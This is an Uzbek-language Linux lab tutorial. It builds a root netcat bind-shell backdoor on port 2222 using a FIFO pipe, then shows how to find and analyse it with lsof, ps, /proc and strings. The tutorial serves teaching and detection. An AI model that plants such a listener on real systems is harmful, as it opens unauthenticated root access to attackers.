 ## Linux CLI Command (backdoor)

Assalom Alaykum bugungi Laboratoriya ishimizda Linux CLI orqali Backdoorlar xosil qilishni ko'rib chiqamiz.Qani kettik!!!

Backdoor nima ekanligini va u nima qilishini yaxshiroq tushunish uchun biz ko'p turli xil asosiy buyruqlardan foydalanamiz.



Ushbu laboratoriya uchun biz 3 ta turli linux terminallarini ishga tushiramiz.

***Birinchisi, biz orqa eshikni boshqaradigan joy bo'ladi.***
***Ikkinchisi, biz unga ulanadigan joy bo'ladi.***
***Uchinchisi, biz tahlil qiladigan oyna yan'ni,Processlarni ko'rish uchun.***



**Terminalni administrator sifatida ochishdan boshlaymiz.**


Linux terminalingizda quyidagi buyruqni bajaring:
```python
sudo su -
```
Bu bizni root ./ snapga o'tkazadi. Biz buni bajardik,biz root sifatida ishlaydigan backdoor va tizimdagi boshqa foydalanuvchi hisobidan ulanishni boshlaymiz.
Keyinchalik biz `fifo` orqa quvurini yaratishimiz kerak.Birinchi Terminalga:

```python
mknod backpipe p
```

Keyin,backpipe make qilishni boshlaylik:

`/bin/bash 0<backpipe | nc -l 2222 1>backpipe`

Yuqoridagi buyruqda biz barcha ma'lumotlarni backpipe orqali, so'ngra bash seansiga yo'naltiradigan netcat tinglovchisini yaratmoqdamiz. Keyin u bash sessiyasining natijasini oladi va uni yana netcat tinglovchisiga qo'yadi.


Asosan, bu bizning Linux tizimimizning 2222-portida backdoor tinglanilishni yaratadi.

Endi boshqa terminalini ochamiz. Bu biz yuqorida yaratilgan orqa eshik bilan bog'laydigan terminal bo'ladi.

Endi biz Linux tizimimizning IP manzilini bilishimiz kerak bo'ladi:
```python
ifconfig
```

Endi ulanamiz:

```python
 nc 172.30.249.49 2222
```

Eslatma!!! Albatta,sizning IP manzilingiz boshqacha bo'ladi!!!

Keling, ba'zi buyruqlarni yozamiz va u ishlayotganiga ishonch hosil qilamiz

```bash
ls
```
```bash
whoami
```

Ko'rib turganingizdek, biz root sifatida oddiy Linux backdooriga ulanganmiz. Shuningdek, orqa eshikka muvaffaqiyatli ulanganimiz haqida xabar yo'qligiga e'tibor bering. Bu shunchaki kursorimizni ekranning chap tomoniga qaytaradi.

Keling, yana bir terminalini ochamiz va tahlil qilishni boshlaymiz. Bu shuni anglatadiki, bizda orqa eshikni yaratgan joy bor, ikkinchisi unga ulangan va uchinchisi tahlil uchun bo'ladi.

Linux terminalingizda quyidagi buyruqni bajaring
```python
sudo su -
```

Bu bizni root file qatoriga olib boradi. Biz superuser bo'ldik, chunki tarmoq ulanishlari va tizim bo'ylab ma'lumotlarni qayta ishlash rootga kirishni talab qiladi. Asosan, root yoki administrator huquqlarisiz SOC pro sifatida ishingizni qilish juda qiyin.

Keling, `lsof` bilan tarmoq ulanishlarini ko'rib chiqaylik. `lsof` dan foydalanganda biz ochiq fayllarni ko'rib chiqamiz. `-i` bayrog'idan foydalanganda biz ochiq Internet ulanishlarini ko'rib chiqamiz. Biz `-P` bayrog'ini ishlatganimizda, biz `lsof` -ga foydalanilayotgan portlarda xizmat nima ekanligini taxmin qilmaslikni ko'rsatamiz. Faqat port raqami bilan.

```python
lsof -i -P
```


Endi netcat jarayon identifikatorini ko'rib chiqamiz. Buni kichik harfli `p` kaliti bilan qilishimiz mumkin. Bu bizga sanab o'tilgan jarayon identifikatori bilan bog'liq barcha ochiq fayllarni beradi.

```python
lsof -p 131
```

Keling, to'liq jarayonlarni ko'rib chiqaylik. Buni `ps` buyrug'i bilan qilamiz. Shuningdek, biz yordamchi kalitlarni qo'shamiz. Bu barcha jarayonlar uchun, `u` foydalanuvchi tomonidan tartiblangan va `x` uchun teletayp terminali yordamida jarayonlarni o'z ichiga oladi.

```python
ps aux
```

Keling, ushbu pid uchun kataloglarni proc katalogiga o'zgartiraylik. Esingizda bo'lsin, proc diskda mavjud bo'lmagan katalogdir. Bu bizga turli jarayonlar bilan bog'liq ma'lumotlarni bevosita ko'rish imkonini beradi. Bu juda foydali, chunki u hozirda shubhali tizimda ishlayotgan jarayonning xotirasini chuqurlashtirishga imkon beradi.

```bash
cd /proc/[pid]
```

Biz bu yerda bir nechta turli-xil kataloglarni ko'rishimiz mumkin:

```python
ls
```

Eslatma!!! Sizning PID ingiz boshqacha bo'ladi!!!

Ushbu katalogdagi exe-da satrlarni ishga tushirishimiz mumkin. Bu juda va juda foydali, chunki dasturlar yaratilganda foydalanish ma'lumotlari, tizim kutubxonalari haqida eslatmalar va mumkin bo'lgan kod sharhlari bo'lishi mumkin. Biz har doim dastur nima qilayotganini aniqlash uchun foydalanamiz.

```bash
strings ./exe
```

Biz bunda,netcat uchun haqiqiy foydalanish ma'lumotlarini ko'rishimiz mumkin. Biz uni to'g'ridan-to'g'ri xotiradan olib tashladik!



